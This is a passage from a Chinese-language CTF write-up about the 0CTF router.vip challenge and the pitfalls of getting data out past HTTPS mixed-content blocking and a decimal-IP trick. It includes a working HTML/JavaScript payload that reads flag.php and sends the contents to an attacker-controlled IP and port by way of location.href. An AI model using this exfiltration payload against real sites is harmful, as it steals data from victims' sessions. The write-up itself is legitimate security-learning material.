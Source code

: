 此时，可以正确加载。

![cosp](https://mo-xiaoxi.github.io/img/post/0ctf/cosp.png)

#### HTTP的坑

这个前面讲过，在比赛期间遇到的，HTTPS src加载HTTP的问题。

```
(index):15 Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/'. This request has been blocked; the content must be served over HTTPS.
getinfo @ (index):15
xmlhttp.onreadystatechange @ (index):24
2(index):15 Mixed Content: The page at 'https://router.vip/preview.php' was loaded over HTTPS, but requested an insecure script 'http://104.224.169.90:6789/Only%20ip%20from%20this%20host%20is%20allowed'. This request has been blocked; the content must be served over HTTPS.
getinfo @ (index):15
xmlhttp.onreadystatechange @ (index):24
```

chrome显示我们从https跳到了http阻拦了（实质就是https的页面src http，是不允许的，这也是前面适用 `\\`的一个需求，这个前面讲的思路中讲过！）。前文讲过直接改成https会导致看不到明文数据，所以只能是HTTP。

所以，修改成location.href的格式

```html
<html>
<head>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
</head>


<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("https://router.vip/flag.php",function(data){
//alert(data);
        location.href="http://104.224.169.90:6789/"+escape(data);
});
</script>


</html>
```

此时，能在VPS上看到数据。



#### IP的坑

在看[Melody](http://www.melodia.pw/?p=889#comment-257411)博客时，发现他说10进制有一个坑。

> 这里有一个10进制的坑，就是当有10进制ip的时候，如果用`<link rel=import href=\\1759553882`这种格式，会被chrome干掉，打开 console 看到报错是 不安全的响应，当前页面是 https，而我的服务器虽然开启了 https，但是因为证书是不和 ip 绑定而是和域名绑定的，所以我需要使用域名才能绕过这个限制。

